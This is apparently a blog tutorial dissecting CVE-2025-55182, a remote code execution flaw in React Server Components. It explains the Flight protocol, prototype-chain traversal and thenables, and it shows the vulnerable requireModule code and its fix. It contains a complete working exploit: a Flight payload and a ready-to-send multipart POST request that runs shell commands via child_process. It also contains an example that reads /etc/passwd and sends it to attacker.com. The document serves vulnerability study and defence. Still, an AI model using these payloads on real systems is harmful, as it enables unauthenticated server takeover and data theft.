

Executive Summary
The Threat: CVE-2025-55182 is a critical remote code execution vulnerability in React Server Components that allows unauthenticated attackers to execute arbitrary code on servers through a single malicious HTTP request. No credentials, no user interaction, no special configuration required.
child_process and vm.
Prerequisites: Understanding React's Rendering Models
To understand how CVE-2025-55182 works, you first need to understand how React evolved from client-side rendering to Server Components. Let's build this foundation.
Traditional Client-Side Rendering (CSR)
In classic React applications, everything happens in the browser:
// Server sends minimal HTML
<html>
<body>
<div id="root"></div>
<script src="bundle.js"></script>
</body>
</html>
// React runs in browser, builds entire UI
function App() {
const [data, setData] = useState(null);
useEffect(() => {
fetch('/api/data').then(r => setData(r));
}, []);
return <div>{data}</div>;
}Problems: Large JavaScript bundles, slow initial page load, SEO challenges, and waterfalls of data fetching.
Server-Side Rendering (SSR)
SSR improved things by rendering the initial HTML on the server:
// Server generates full HTML
<html>
<body>
<div id="root">
<div>User: Alice</div> <!-- Already rendered! -->
</div>
<script src="bundle.js"></script>
</body>
</html>
// Then React "hydrates" - attaches event listeners
// But you still ship ALL component code to the browserKey Limitation: Even with SSR, every component's code must be shipped to the browser for hydration. If you have a large data table component, that entire component's JavaScript goes to the client, even though the data was already rendered on the server.
React Server Components (RSC) - The Paradigm Shift
React Server Components fundamentally change what goes to the client. Components are split into two categories:
Client Components: Run in the browser (marked with
'use client')
Why This Matters
// Server Component (no 'use client' directive)
async function UserProfile({ userId }) {
// This code NEVER goes to the browser
const db = await connectToDatabase();
const user = await db.query('SELECT * FROM users WHERE id = ?', [userId]);
return (
<div>
<h1>{user.name}</h1>
<Bio user={user} /> {/* Server Component */}
<LikeButton userId={userId} /> {/* Client Component */}
</div>
);
}
// Client Component (needs interactivity)
'use client';
function LikeButton({ userId }) {
const [liked, setLiked] = useState(false);
return <button onClick={() => setLiked(!liked)}>Like</button>;
}The Magic: The database code, the query logic, the entire UserProfile component never gets sent to the browser. Only the rendered output and the LikeButton component code are shipped to the client.
The Flight Protocol: How RSC Communication Works
Here's where the vulnerability lives. Server Components need a way to send their rendered output to the client. React uses the "Flight" protocol:
// 1. Client requests a Server Component
GET /profile/123
// 2. Server executes component, serializes result
// Flight protocol output (simplified):
M1:{"id":"./Button.js","chunks":["client1"],"name":"Button"}
J0:["$","div",null,{"children":["$","h1",null,{"children":"Alice"}]}]
S2:["$","@1",null,{"userId":"123"}]
// 3. Client receives and reconstructs the UI
// Server Component parts: Rendered as HTML
// Client Component references: Loaded and hydratedsaveUser, it sends metadata that tells the client how to reconstruct it. The vulnerability exists in how this deserialization happens.
Server Actions: The Attack Surface
Server Actions let you call server-side functions from client code:
// Server Component defines an action
async function saveProfile(formData) {
'use server'; // This marks it as a Server Action
const name = formData.get('name');
await db.updateUser(name);
}
// Client Component calls it
'use client';
function ProfileForm() {
return (
<form action={saveProfile}>
<input name="name" />
<button>Save</button>
</form>
);
}When you submit this form, the browser sends a POST request with Flight protocol data that tells the server which function to execute. This is where CVE-2025-55182 strikes - by manipulating the Flight protocol payload to reference dangerous modules instead of legitimate Server Actions.
"./actions#saveProfile" but the deserialization code doesn't validate that the reference is legitimate. Attackers can send "child_process#execSync" or use prototype chain traversal like "constructor#constructor" to reach dangerous functionality.
JavaScript Fundamentals You Need to Know
Before we dive into the vulnerability, let's explore fundamental JavaScript concepts that every developer should understand. These aren't just theoretical - they're the building blocks that make exploits like CVE-2025-55182 possible.
1. Objects and Property Access
JavaScript objects are collections of properties. You can access them in two ways:
const user = {
name: "Alice",
age: 30,
email: "alice@example.com"
};
// Dot notation - property name is fixed in code
console.log(user.name); // "Alice"
// Bracket notation - property name can be dynamic
const prop = "email";
console.log(user[prop]); // "alice@example.com"
// Check if property exists on the object itself
console.log(user.hasOwnProperty("name")); // true
console.log(user.hasOwnProperty("toString")); // false2. The Prototype Chain: JavaScript's Inheritance System
Every JavaScript object inherits properties from a parent object called its prototype. This forms a chain:
const user = { name: "Alice" };
// Properties the user object owns
console.log(user.name); // "Alice" - own property
console.log(user.hasOwnProperty("name")); // true
// Properties inherited from Object.prototype
console.log(user.toString); // [Function: toString]
console.log(user.hasOwnProperty("toString")); // false - inherited!
console.log(user.constructor); // [Function: Object]
console.log(user.hasOwnProperty("constructor")); // false - inherited!
// How JavaScript finds properties:
// 1. Check user object itself
// 2. If not found, check user.__proto__ (which is Object.prototype)
// 3. If not found, check Object.prototype.__proto__ (which is null)
// 4. Return undefined if not found anywhereVisualizing the Prototype Chain
user
├─ name: "Alice" (own property)
└─ __proto__: Object.prototype
├─ constructor: Function
├─ toString: Function
├─ hasOwnProperty: Function
└─ __proto__: null3. Bracket Notation Traverses the Entire Chain
Here's the critical security insight: bracket notation doesn't distinguish between own and inherited properties.
const user = { name: "Alice" };
// Both access the same inherited property
console.log(user.constructor); // [Function: Object]
console.log(user["constructor"]); // [Function: Object] - same result!
// This works even though "constructor" isn't an own property
const key = "constructor";
console.log(user[key]); // [Function: Object]
// You can even chain bracket notation
console.log(user["constructor"]["name"]); // "Object"obj[key], they can access ANY property in the prototype chain, not just properties you intended to expose.
A Security Anti-Pattern
// VULNERABLE CODE - Never do this with untrusted input!
function getUserProperty(user, propertyName) {
return user[propertyName]; // ❌ No validation!
}
const user = { name: "Alice", role: "admin" };
// Legitimate use
getUserProperty(user, "name"); // "Alice" ✓
// Malicious use - accessing inherited properties
getUserProperty(user, "constructor"); // [Function: Object] ❌
getUserProperty(user, "__proto__"); // Object.prototype ❌
getUserProperty(user, "hasOwnProperty"); // [Function] ❌
// SAFE CODE - Always validate
function getUserPropertySafe(user, propertyName) {
if (user.hasOwnProperty(propertyName)) {
return user[propertyName]; // ✓ Only own properties
}
return undefined;
}4. The Function Constructor: Eval on Steroids
JavaScript's Function constructor creates executable code from strings - it's like eval() but more dangerous because it's a first-class object.
// Creating functions at runtime
const add = new Function('a', 'b', 'return a + b');
console.log(add(2, 3)); // 5
// Single parameter: the function body
const greet = new Function('return "Hello " + "World"');
console.log(greet()); // "Hello World"
// The dangerous part: arbitrary code execution
const dangerous = new Function(`
const fs = require('fs');
return fs.readFileSync('/etc/passwd', 'utf8');
`);
// If this runs, the attacker reads sensitive files!
// Even more dangerous: system commands
const systemCmd = new Function(`
const cp = require('child_process');
return cp.execSync('whoami').toString();
`);
// Executes arbitrary shell commands!- Access the
Functionconstructor (via prototype chain) - Control the string passed to it
Reaching Function Constructor via Prototype Chain
const obj = {};
// Method 1: Via constructor property
obj.constructor // [Function: Object]
obj.constructor.constructor // [Function: Function] ⚠️
// Method 2: Via __proto__
obj.__proto__.constructor // [Function: Object]
obj.__proto__.constructor.constructor // [Function: Function] ⚠️
// Now you can execute code
const FunctionConstructor = obj.constructor.constructor;
const malicious = FunctionConstructor('return "pwned"');
console.log(malicious()); // "pwned"
// In one line:
obj.constructor.constructor('alert("XSS")')();5. Thenables: JavaScript's Promise Duck Typing
JavaScript's await keyword doesn't just work with Promises - it works with any object that has a .then method (called a "thenable").
// Normal Promise
async function normalCase() {
const result = await Promise.resolve(42);
console.log(result); // 42
}
// Custom thenable - JavaScript calls .then() automatically
const customThenable = {
then: function(resolve, reject) {
console.log(".then() was called!");
resolve(100);
}
};
async function thenableCase() {
console.log("Before await");
const result = await customThenable;
// JavaScript automatically called customThenable.then()
console.log("After await:", result); // 100
}
thenableCase();
// Output:
// Before await
// .then() was called!
// After await: 100The Security Risk: Code Injection via Thenables
// Malicious thenable that executes code when awaited
const maliciousThenable = {
then: function(resolve, reject) {
// ⚠️ This code executes when the object is awaited!
const fs = require('fs');
const secrets = fs.readFileSync('/etc/passwd', 'utf8');
console.log("Stole secrets!");
// Can even make network requests
fetch('https://attacker.com/exfil', {
method: 'POST',
body: secrets
});
resolve("innocent data");
}
};
// Vulnerable code
async function processData(untrustedData) {
// If untrustedData contains a thenable, its .then() executes!
const result = await untrustedData;
return result;
}
// Attack
processData(maliciousThenable);
// The malicious code in .then() has already executed!await or Promise.resolve() on untrusted data becomes an execution vector if attackers can inject a thenable object.
Real-World Attack Scenario
// Server-side API endpoint that deserializes user data
async function handleRequest(req, res) {
const userData = JSON.parse(req.body);
// Somewhere in processing, data gets awaited
const processed = await processUser(userData);
res.json(processed);
}
// Attacker payload
POST /api/user
Content-Type: application/json
{
"name": "Alice",
"profile": {
"then": "function(resolve) { /* malicious code */ }"
}
}
// If the deserializer can reconstruct the .then function,
// it executes when profile object is awaited!6. Combining Techniques: The Full Attack
Sophisticated attacks combine these primitives:
// Attacker's goal: Execute arbitrary code
// Available attack surface: obj[userControlledKey]
const obj = { safeProperty: "value" };
const attackKey = "constructor";
// Step 1: Traverse to Function constructor
const step1 = obj[attackKey]; // Object constructor
const step2 = step1[attackKey]; // Function constructor
// Step 2: Execute arbitrary code
const malicious = step2('return process.env');
const secrets = malicious();
// Or in one line:
obj["constructor"]["constructor"]("return process.env")();
// Alternative: Using __proto__
obj["__proto__"]["constructor"]["constructor"]("malicious code")();- Bracket notation with untrusted input:
obj[attackerKey] - Missing
hasOwnProperty()check - Ability to chain multiple property accesses
Key Takeaways for Secure Coding
- Always validate property access: Use
hasOwnProperty()before accessing properties with dynamic keys - Understand the prototype chain: Bracket notation traverses it - this is a feature, not a bug, but it's dangerous with untrusted input
- Never trust deserialized data: Especially when it can contain executable code (functions, thenables)
- Be cautious with await: Any object with a
.thenmethod can execute code when awaited - Defense in depth: Even if you avoid these patterns, your dependencies might not
The Vulnerability Explained
Now that we understand JavaScript's prototype chain and the risks of bracket notation, let's see exactly how CVE-2025-55182 exploits these concepts.
Root Cause: Missing hasOwnProperty Check in requireModule
The vulnerability exists in React Server Components' requireModule function, which is responsible for loading module exports during Flight protocol deserialization.
The Vulnerable Code (React 19.0.0)
// File: react-server-dom-webpack-server.node.development.js
// Line ~4367-4380 in v19.0.0
function requireModule(metadata) {
var moduleExports = __webpack_require__(metadata[0]);
if (4 === metadata.length && "function" === typeof moduleExports.then) {
if ("fulfilled" === moduleExports.status) {
moduleExports = moduleExports.value;
} else {
throw moduleExports.reason;
}
}
return "*" === metadata[2]
? moduleExports
: "" === metadata[2]
? moduleExports.__esModule
? moduleExports.default
: moduleExports
: moduleExports[metadata[2]]; // ← VULNERABLE LINE
}moduleExports[metadata[2]] uses bracket notation WITHOUT checking if metadata[2] is an own property. This allows attackers to access inherited properties like constructor - exactly the attack we explored in the JavaScript fundamentals section!
Why This Matters
When a client sends a Server Action request, metadata[2] contains the export name to access. The code assumes this will be a legitimate export like "saveUser" or "updateProfile". But there's no validation!
// Legitimate use
metadata[2] = "saveUser"
moduleExports["saveUser"] // ✓ Accesses the saveUser function
// Malicious use - attacker controls metadata[2]
metadata[2] = "constructor"
moduleExports["constructor"] // ✗ Accesses inherited Function constructor!The Fix (React 19.0.1+)
// Patched version with hasOwnProperty check
function requireModule(metadata) {
var moduleExports = __webpack_require__(metadata[0]);
// ... promise handling code ...
if (metadata[2] === '*') {
return moduleExports;
}
if (metadata[2] === '') {
return moduleExports.__esModule ? moduleExports.default : moduleExports;
}
// ✓ THE FIX: Check if property is owned before accessing
if (hasOwnProperty.call(moduleExports, metadata[2])) {
return moduleExports[metadata[2]];
}
// If not an own property, fail safely
return undefined;
}How the Exploit Works
The exploitation of CVE-2025-55182 is a masterclass in chaining multiple subtle vulnerabilities. Understanding this requires a deep dive into React's Flight protocol and how attackers weaponized its features.
Understanding React Flight Protocol
React Server Components use the "Flight" protocol to serialize and deserialize data between client and server. The protocol uses a reference syntax to efficiently transmit complex data structures.
Flight Protocol Reference Syntax
| Pattern | Description | Example |
|---|---|---|
$<id> |
Reference entire chunk by ID | "$1" → resolves to chunk 1's contents |
$<id>:key |
Reference specific property from chunk | "$2:companyName" → gets companyName from chunk 2 |
$<id>:nested.path |
Access nested properties | "$3:user.email" → gets email from user object in chunk 3 |
Example: Normal Flight Protocol Usage
files = {
"0": '["$1"]', // Array containing reference to chunk 1
"1": '{"object":"cat","name":"$2:catName"}', // Object with property reference
"2": '{"catName":"asteroidDestroyer"}', // Data source
}
// Resolution Process:
// 1. Chunk 0: ["$1"] - Array with reference to chunk 1
// 2. Chunk 1: {object: "cat", name: "$2:catName"} - Object with property reference
// 3. Chunk 2: {catName: "asteroidDestroyer"} - Source data
// 4. Final Result:
[
{
object: "cat",
name: "asteroidDestroyer"
}
]1: Prototype Chain Traversal
React Flight failed to validate that referenced properties existed on target objects before accessing them, allowing attackers to traverse JavaScript's prototype chain.
Attack Payload
files = {
"0": '["$1:__proto__:constructor:constructor"]',
"1": '{"x":1}',
}Resolution Chain
| Step | Operation | Result |
|---|---|---|
| 1 | $1 resolves to chunk 1 |
{x: 1} |
| 2 | :__proto__ accesses prototype |
Object.prototype |
| 3 | :constructor accesses constructor |
Object() constructor function |
| 4 | :constructor again |
Function() constructor |
Final Result: [Function: Function] - The global Function constructor
__proto__, and React's deserialization followed these references blindly.
2: Thenables - Turning Data into Execution
A "thenable" is any object with a .then method. When JavaScript encounters await obj, if obj.then exists, the runtime automatically invokes .then(resolve, reject) with two callback functions.
Attack Payload
files = {
"0": '{"then":"$1:__proto__:constructor:constructor"}',
"1": '{"x":1}',
}Execution Flow
1. Deserialization produces: {then: Function}
2. Application code executes: await decodedReply
3. JavaScript runtime detects .then property
4. Automatically invokes: Function(resolve, reject)
5. Function() attempts to execute arguments as code
6. Result: SyntaxError (because resolve/reject functions aren't valid code strings)Function in the .then property, JavaScript's own async/await mechanism triggers execution automatically.
3: Breaking the Object Boundary with $@
The $@ Syntax
| Syntax | Behavior | Use Case |
|---|---|---|
$1 |
Resolves chunk 1 to final value | Normal data access: {x: 1} |
$@1 |
Returns raw chunk object | Internal operations: chunk metadata, .then() method |
Attack Payload
files = {
"0": '{"then": "$1:__proto__:then"}',
"1": '"$@0"',
}Why $@ Exists (Legitimate Use)
React uses $@ internally for:
- Streaming support: Pass unresolved chunks between components
- Incremental rendering: Reference chunks before they're fully loaded
- Async coordination: Treat chunks as thenables for promise-like behavior
Why $@ Is Dangerous
When attackers control Flight payloads, $@ exposes:
- Chunk prototypes: Access to
Chunk.prototype.then - Internal state:
status,_response,reasonfields - Runtime internals: Breaks abstraction between data and execution context
4: Forcing Second Deserialization with status
React's initializeModelChunk() function provides special processing for chunks marked as "resolved_model". Attackers discovered they could trigger this privileged code path by setting a client-controlled status field.
Attack Payload
files = {
"0": '{"then":"$1:__proto__:then","status":"resolved_model"}',
"1": '"$@0"',
}Internal Logic
if (chunk.status === "resolved_model") {
initializeModelChunk(chunk);
// Inside initializeModelChunk:
var parsed = JSON.parse(chunk.value); // Parse chunk.value
reviveModel(chunk._response, parsed); // Second deserialization!
}Exploitation Flow
1. Chunk contains status: "resolved_model"
2. React calls initializeModelChunk(chunk)
3. Function parses chunk.value as JSON
4. Calls reviveModel() with chunk._response as context
5. Result: A second deserialization pass with attacker-controlled contextstatus field had no validation. React assumed only its own code would set status: "resolved_model".
5: Context Confusion via _response
The _response object serves as the execution context for React Flight's deserialization. By providing a malicious _response, attackers completely control the environment where chunk references are resolved.
Key Components
| Field | Purpose | Malicious Use |
|---|---|---|
reason: -1 |
Bypasses error check in initializeModelChunk | -1.toString(16) causes error if validated |
value |
JSON parsed during second pass | Contains blob reference $B0 |
_response |
Execution context for second pass | Fully attacker-controlled |
_response._formData.get |
Should fetch form data | Points to Function() constructor |
_response._prefix |
Blob ID prefix | Contains attacker's code payload |
Attack Pattern: Confused Deputy
┌─────────────────────────────────────────────┐
│ reviveModel() - The Deputy │
│ • Executes with server privileges │
│ • Uses attacker's _response object │
│ • Makes decisions based on malicious context│
└─────────────────────────────────────────────┘
↓
Performs privileged actions
using attacker-controlled data_response object without validation, allowing attackers to hijack the entire deserialization context.
6: Blob Resolution - The Kill Chain
React Flight handles binary data through "blob references" (prefixed with $B). The blob resolution mechanism fetches data using response._formData.get().
Vulnerable Code (Simplified)
case "B": // Handle blob references like "$B0"
// BUG: response._formData.get is attacker-controlled
return response._formData.get(response._prefix + blobId);Exploitation Flow
1. Second pass processes: {"then": "$B0"}
2. "$B0" triggers blob handler
3. response._formData.get → resolves to Function()
4. response._prefix + "0" → "MALICIOUS_CODE" + "0"
5. Function("MALICIOUS_CODE0") called
6. Creates function containing attacker code
7. Function returned as .then property
8. await automatically invokes .then()
9. Attacker code executes on server_formData.get() without verifying it was a legitimate FormData method rather than the Function constructor.
7: Weaponized RCE Payload
Complete Exploit
files = {
"0": JSON.stringify({
"then": "$1:__proto__:then", // Hijack .then
"status": "resolved_model", // Force initializeModelChunk()
"reason": -1, // Bypass error check
"value": '{"then": "$B0"}', // Blob reference for second pass
"_response": {
"_formData": {
"get": "$1:__proto__:constructor:constructor" // Point to Function()
},
"_prefix": "require('child_process').exec('COMMAND_HERE');" // RCE payload
}
}),
"1": '"$@0"', // Self-reference
}Component-by-Component Breakdown
"then": "$1:__proto__:then"Purpose: Hijack the
.then property to point to React's internal Chunk.prototype.then methodWhy Not Function Directly?: Using the prototype's
.then makes the object look like a legitimate React chunk, avoiding early detection
"status": "resolved_model"Purpose: Force React to treat the chunk as fully resolved
Effect: Unlocks
initializeModelChunk() execution pathTrust Violation: React assumed only internal code would set this status
"reason": -1Purpose: Bypass validation in
initializeModelChunk()Code Being Bypassed:
var rootReference = chunk.reason.toString(16); // -1 causes error if checked
"value": '{"then": "$B0"}'Purpose: Nested JSON with blob reference for second deserialization pass
Flow: Parsed by
JSON.parse(chunk.value) → triggers blob handler
"_response"Purpose: Completely attacker-controlled execution context
Contains:
_formData.get (points to Function constructor) and _prefix (contains RCE payload)
"_formData.get": "$1:__proto__:constructor:constructor"Purpose: Redirect data-fetching to code execution
Chain:
{x:1} → Object.prototype → Object → FunctionResult:
response._formData.get() becomes Function()
"_prefix": "require('child_process').exec('...')"Purpose: The actual malicious code to execute
Execution:
Function(this_string) creates executable function with attacker's Node.js code
"$@0"Purpose: Self-referential loop allowing chunk 0 to reference itself
Effect: Enables the complex circular reference chain needed for exploitation
Complete Attack Flow
$1:__proto__:thenstatus: "resolved_model" forces initializeModelChunk() executionvalue field parsed with attacker-controlled _response context$B0 triggers call to _formData.get() which resolves to Function()Function(_prefix + "0") creates and returns executable functionawait mechanism calls the malicious .then methodThe POC
Step 1: Find the Vulnerable Application
Find the vulnerable application link here: https://github.com/msanft/CVE-2025-55182
Clone the repo and run node server.js. This will setup the Next.js vulnerable application with default configurations.

Step 2: Craft and Send the Exploit
We know that:
- Server Actions are enabled (Next.js / React Server Components)
- The server accepts
multipart/form-data - The framework blindly rehydrates objects from user input
- Prototype pollution + thenables are reachable during deserialization
Therefore, according to the POC by maple, craft the POST request:
POST / HTTP/1.1
Host: localhost:3000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Next-Action: test
------WebKitFormBoundary
Content-Disposition: form-data; name="0"
["$1"]
------WebKitFormBoundary
Content-Disposition: form-data; name="1"
{"then":"$2:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B0\"}","_response":{"_formData":{"get":"$2:__proto__:constructor:constructor"},"_prefix":"require('child_process').execSync('whoami > /tmp/pwned.txt');"}}
------WebKitFormBoundary
Content-Disposition: form-data; name="2"
"$@1"
------WebKitFormBoundary--
The Terminal pops!
Real-World Impact
What Attackers Can Do
- Execute System Commands: Spawn shells, run arbitrary binaries
- Read Sensitive Files: Access environment variables, configuration files, database credentials
- Write Files: Install backdoors, modify application code
- Exfiltrate Data: Steal customer data, API keys, source code
- Establish Persistence: Create new users, modify SSH keys, install remote access tools
- Lateral Movement: Use compromised server as pivot point to attack internal infrastructure
Observed in the Wild
Since December 5, 2025, security researchers have observed active exploitation including:
- Cryptocurrency miners: Deploying mining malware on compromised servers
- Cobalt Strike: Establishing C2 beacons for further exploitation
- State-sponsored activity: Unit 42 identified activity linked to CL-STA-1015, suspected ties to PRC's Ministry of State Security
- Automated scanning: Mass exploitation attempts using tools like Nuclei
- Botnet operations: Mirai and Rondo variants targeting vulnerable servers
Additional Related Vulnerabilities
CVE-2025-55183 (CVSS 5.3): Source Code Exposure vulnerability
CVE-2025-67779: Additional vulnerability discovered during remediation efforts
Key Takeaways for Developers
Security Best Practices
- Always use hasOwnProperty: When accessing object properties with user-controlled keys, ALWAYS check
hasOwnProperty()first - Understand prototype chain risks: Bracket notation
obj[key]traverses the entire prototype chain - this is dangerous with untrusted input - Validate deserialization: Never trust deserialized data from untrusted sources without strict validation
- Defense in depth: Even if you don't expose dangerous modules, prototype access enables other attacks
- Keep dependencies updated: Framework vulnerabilities affect you even if your code is secure
For Security Teams
- Scan all React/Next.js deployments immediately
- Assume compromise if vulnerable versions were exposed since December 5
- Look for IOCs: unusual POST requests, process spawning, file modifications
- Consider this vulnerability class when assessing other JavaScript frameworks
Technical Resources
- Official React Security Advisory
- Next.js Security Advisory (GHSA-9qr9-h5gf-34mp)
- Technical Analysis by ejpir
- Working PoC by Moritz Sanft
- Palo Alto Unit 42 Analysis
- Trend Micro Technical Analysis
- Making Sense of React Server Components
Conclusion
CVE-2025-55182 demonstrates how a single missing security check can create a maximum-severity vulnerability affecting millions of applications. The hasOwnProperty() function exists specifically to distinguish between own and inherited properties, yet its absence in React's deserialization code created a critical RCE pathway.
This vulnerability is particularly dangerous because:
- It affects the framework layer: Developers using React correctly were still vulnerable
- It requires no authentication: Any attacker can exploit it with a single HTTP request
- It's in default configuration: Fresh
create-next-appprojects are immediately exploitable - It's actively exploited: Real-world attacks are happening now